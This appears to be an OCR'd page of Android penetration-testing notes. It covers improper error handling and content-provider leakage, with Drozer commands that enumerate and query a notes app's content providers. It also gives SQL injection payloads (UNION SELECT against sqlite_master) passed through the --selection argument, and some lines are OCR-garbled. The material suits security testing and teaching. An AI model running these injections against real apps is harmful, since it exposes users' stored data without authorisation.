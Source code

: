 # **Improper Error Handling**

Error handling is not properly done, and the API is throwing database/server errors specific to the crafted request, it is possible to craft attacks using those errors.

### **Content Provider Leakage**

According to Google Android Security application can't share data with another application until it's allow to share. If application assign content:// to any application that means it's provide content to particular application

#### **Content provider leakage**

By using Drozer to perform various attacks on content providers. We can find out the package name of our target application using the command shown as follows:

1. \#run app.package.list -f {appname}
2. \#run app.package.attacksurface com.sonyericsson.notes
3. \#run scanner.provider.finduris -a \[package name]

\#run scanner.provider.finduris -a com.sonyericsson.notes

1. \#run app.provider.query \[content provider URI]
2. \#run app.provider.query content://com.sonyericsson.notes.provider
3. \#run app.provider.query \[URI] --vertical (For Vertical view)

\#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --vertical

#### **Attacking SQL Injection using Drozer**

1. \#run scanner.provider.injection -a \[package name]
2. \#run scanner.provider.injection -a com.sonyericsson.notes
3. \#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --selection "{sqlpayload}"

\#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --selection "\_id=1"

\#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --sele,ction "\_id=1=1)union select 1,2,3,4,5,6,7,8,9,10,11,12, 13,14 from sqlite\_master where (1=1"

\#run app.provider.query content://com.sonyericsson.notes.provider. Note/notes/ --selection "\_id=1=1)union select 1,2,3,4,sqlite\_ version(),6,7,8,9,10,1112,13,14 from sqlite\_master where (1=1"
